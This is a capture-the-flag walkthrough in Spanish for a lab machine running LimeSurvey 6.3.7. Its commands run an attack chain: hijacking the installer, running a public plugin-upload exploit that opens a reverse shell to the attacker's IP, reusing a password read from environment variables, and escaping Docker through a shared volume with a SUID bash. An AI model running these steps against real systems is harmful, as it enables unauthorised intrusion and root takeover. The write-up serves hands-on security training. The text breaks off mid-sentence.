

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Vulnerabilidades por versión, no te guíes solo de la descripción del CVE :) a veces los CVEs antiguos siguen funcionando
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Variables del entorno, usualmente dan info muy imporrtante
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Es un docker, qué más puedes hacer ? Mira los volúmenes y verifica si se sincronizan
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
sudo nmap -sS -Pn -n --min-rate 5000 10.129.65.233 -p- -sV -vvv -oN port-scan
```

```ruby
Nmap scan report for 10.129.65.233
Host is up, received user-set (0.10s latency).
Scanned at 2026-09-06 21:56:17 EDT for 20s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.56
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Con estos resultados analizaremos primero el puerto 80 (HTTP) e investigaremos alguna brecha dentro de la web



Al tener una respuesta *Forbidden* buscaremos directorios que puedan responder utilizando la herramienta `fuff`

```sh
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.65.233/FUZZ -t 200
```



Se tiene la ruta */survey* que arroja un estado de 301 *Redirect*, veremos que nos arroja dentro de la web



De manera inmediata nos redirige a una página de instalación de *LimeSurvey* local, lo que haremos será seguir todos los pasos de instalación



Veremos que en el apartado de *Pre-installation check* nos arroja la versión a instalar de *LimeSurvey* el cual es la versión *6.3.7*, luego de instalar dicha versión buscaremos si dispone de un exploit público, por el momento continuamos con la instalación



Notamos que en el apartado *Configuration* nos pide cierta información, información la cual no tenemos, no tenemos un usuario al cual conectarse ni mucho menos una password, es más, no sabemos si se está ejecutando una abse de datos *Mysql* de manera interna en la máquina, para nuestro beneficio la configuración permite configurar una conexión a una base de datos remota, esto nos permitirá crear nosotros mismos una instancia *Mysql* alojada en nuestra máquina (máquina atacante) en el cual la máquina se conectará y así proseguirá la instalación :)

Para realizar esto primero debemos crear una instancia dentro de nuestra máquina, para esto nos ayudaremos de docker

```sh
sudo docker run -p  10.10.15.231:3306:3306 -e MYSQL_ROOT_PASSWORD='root' mysql:latest
``` 



Esto creará un contenedor el cual ejecutará *mysql* (la última versión) con la credencial **root:root** y se ejecutará en nuestro puerto 3306, entonces completamos el apartado de *Configuration* con los datos del docker



Le damos luego al botón de *Create Database* y luego a *Populate database*



Una vez completada esta fase nos permitirá configurar una password de admin y demás cosas, nosotros simplemente le pondremos de credencial **admin:admin**



Al instalarse correctamente aparecerá un anunció como este 



Es entonces donde nos pondremos ahora a buscar una vulnerabilidad de *LimeSurvey 6.3.7*, notaremos que nuestra búsqueda en google nos arrojarán resultados como una vuln de DoS, pero nuestro objetivo no es dar de baja a la aplicación, sino ingresar al sistema, para ello buscaremos vulnerabilidades tipo *RCE*.

En la búsqueda podemos obtener los siguientes CVEs candidatos:

- CVE-2021-44967
- CVE-2025-56422

En situaciones como esta se suele investigar un poco y ver qué vulnerabilidad puede encajar viendo versiones afectadas y comparándolas con lo que tenemos, sin embargo, solo 1 CVE dispone de exploit público, el CVE-2021-44967, pero por su descrippción pareciera que no es el que queremos

> [!quote]
> A Remote Code Execution (RCE) vulnerabilty exists in LimeSurvey 5.2.4 via the upload and install plugins function, which could let a remote malicious user upload an arbitrary PHP code file. NOTE: the Supplier's position is that plugins intentionally can contain arbitrary PHP code, and can only be installed by a superadmin, and therefore the security model is not violated by this finding.

La descripción menciona la versión 5.2.4, nosotros tenemos la 6.3.7, pero en búsqueda de PoCs en github veremos que incluso esta vuln se ha probado en versiones posteriores

https://github.com/godylockz/CVE-2021-44967



Así que la lección es que no te fiés solo de su descripción, investiga más a fondo las vulns que has descubierto y verás que te llevas una sorpresa (aunque puede que esto haya pasado debido a que es una vuln del 2021 lo cual es algo antigua)

## Acceso Inicial

Entonces disponemos de un exploit público que ha sido testeado incluso en una versión posterior a la que hemos instalado y no solo eso, tambien nos da una reverse shell, buena suerte no ?

Ahora, podemos simplemente ejecutar el exploit y dar con la sesión dentro de la víctima, pero vayamos un poco más adentro del código de ese python :)

Básicamente lo que hace es lo siguiente:

- Crea un archivo llamado *payload.php* el cual es la reverse shell en php de pentestmonkey solo que cambiados los parámetros para que concuerde con nuestra ip y puerto
- Crea un archivo llamado *config.xml* el cual parece ser necesario para el plugin
- Comprime ambos archivos en un *.zip*
- Se loguea con credenciales válidas
- Por último carga ese *.zip* como un plugin para luego ejecutarlo

Entonces la vulnerabilidad radica en la carga de plugins sin restricción lo que permite cargar php malicioso y ejecutarlo, pasemos entonces a la ejecución del exploit público

```sh
python3 limesurvey_rce.py -t http://10.129.65.233/survey/ -u admin -p admin --listen-ip 10.10.15.231 --listen-port 4444 -v
```



Con esto obtenemos una shell inversa hacia la máquina, si intentamos ver el plugin que se cargó podemos ingresar a la página de administración de *LimeSurvey* http://10.129.65.233/survey/index.php/admin/pluginmanager/sa/index y notaremos que ingresó un Plugin llamado *ExploitRCE_4457*



La sesión obtenida del sistema tiene una nomenclatura particular... Vemos algo como  `limesvc@efaa6f5097ed:/$` esos números hexadecimales hacen parecer que estamos en un contenedor, lo verificaremos por medio del comando `hostname -I` y `hostname` 

```sh
limesvc@efaa6f5097ed:/$ hostname -I                                                                                                                         
172.17.0.2                                                                                                                                                  
limesvc@efaa6f5097ed:/$ hostname                                                                                                                            
efaa6f5097ed
```

Bueno, todo parece indicar que estamos en un docker, entonces intentaremos escapar del docker para poder ingresar a la máquina host, para ello primero verificaremos variables el sistema

```sh
limesvc@efaa6f5097ed:/$ env                                                                                                                                 
SHELL=bash                                                                                                                                                  
HOSTNAME=efaa6f5097ed                                                                                                                                       
PHP_VERSION=8.0.30                                                                                                                                          
APACHE_CONFDIR=/etc/apache2                                                                                                                                 
PHP_INI_DIR=/usr/local/etc/php                                                                                                                              
GPG_KEYS=1729F83938DA44E27BA0F4D3DBDB397470D12172 BFDDD28642824F8118EF77909B67A5C12229118F 2C16C765DBE54A088130F1BC4B9B5F600B55F3B4 39B641343D8C104B2B146DC3F9C39DC0B9698544                                                                                                                                            
PHP_LDFLAGS=-Wl,-O1 -pie                                                                                                                                    
PWD=/                                                                                                                                                       
APACHE_LOG_DIR=/var/log/apache2                                                                                                                             
LANG=C                                                                                                                                                      
LS_COLORS=                                                                                                                                                  
PHP_SHA256=216ab305737a5d392107112d618a755dc5df42058226f1670e9db90e77d777d9                                                                                 
APACHE_PID_FILE=/var/run/apache2/apache2.pid                                                                                                                
PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc             libc-dev                make            pkg-config re2c                                                                                                                                                         
LIMESURVEY_PASS=5W5HN4K4GCXf9E                                                                                                                              
TERM=xterm                                                                                                                                                  
PHP_URL=https://www.php.net/distributions/php-8.0.30.tar.xz                                                                                                 
LIMESURVEY_ADMIN=limesvc                                                                                                                                    
APACHE_RUN_GROUP=limesvc                                                                                                                                    
APACHE_LOCK_DIR=/var/lock/apache2                                                                                                                           
SHLVL=1                                                                                                                                                     
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64                                                              
APACHE_RUN_DIR=/var/run/apache2                                                                                                                             
APACHE_ENVVARS=/etc/apache2/envvars                                                                                                                         
APACHE_RUN_USER=limesvc                                                                                                                                     
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                                           
PHP_ASC_URL=https://www.php.net/distributions/php-8.0.30.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
_=/usr/bin/env
```

Vemos que se tiene una variable llamada *LIMESURVEY_PASS* el cual tiene un valor de lo que parecer ser una password, intentaremos ver si es la password del root del docker

```sh
limesvc@efaa6f5097ed:/$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc: 
root@efaa6f5097ed:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Al parecer lo es, pero y ahora ?

Recordemos que el usuario con el que ingresamos al docker se llama *limesvc*, tal vez el sistema host tiene un usuario con el mismo nombre y con suerte la misma password



Al parecer sí lo es :), entonces con eso tenemos acceso a la máquina host como el usuario *limesvc*

Ahora a elevar privilegios...

## Escalamiento de privilegios

De todo esto sabemos algo, la máquina mantiene dockers, uno de ellos es con el cual tuvimos un primer ingreso al sistema, entonces analizaremos ese docker y ver si encontramos un *miss configuration*

Al navegar en el sistema host encontramos que disponemos de la ruta de la web que ejecuta *LimeSurvey* dentro del directorio */opt/surveymonkey*



Ahora, recordemos que el docker que ingresamos era el que ejecutaba dicha web, entonces buscaremos la ruta de la web pero esta vez dentro del docker, este directorio se encuentra en */var/www/html/survey*



Entonces, qué tenemos acá ? Parece ser que esas rutas comparten archivos, para probar esto intentaremos crear un archivo utilizando el docker para visualizar si es que se sincronizan

```sh
# docker
root@efaa6f5097ed:/var/www/html/survey# echo "Hello world" > Test.txt

# host
limesvc@forgotten:/opt/limesurvey$ cat Test.txt
Hello world
limesvc@forgotten:/opt/limesurvey$ ls -l Test.txt
-rw-r--r-- 1 root root 12 Sep  7 03:02 Test.txt
```

Vemos que se sincronizan dichos directorioss y que además el archivo creado se hizo bajo el usuario *root*, esto nos puede permitir crear o traer archivos a ese directorio y aplicarles cambios bajo el permiso de *root*, para aprovecharnos de eso intentaremos llevar el binario */bin/bash* del docker a esa ruta y darle permisos SUID, así ver si mantiene el mismo permiso dentro del host

```sh
# docker
root@efaa6f5097ed:/var/www/html/survey# cp /bin/bash .                                                                                                      
root@efaa6f5097ed:/var/www/html/survey# chmod u+s bash

# host
limesvc@forgotten:/opt/limesurvey$ ./bash -p
bash-5.1# id                                                                                                                                                
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) groups=2000(limesvc)
```

Con esto obtenemos permisos elevados dentro del sistema host gracias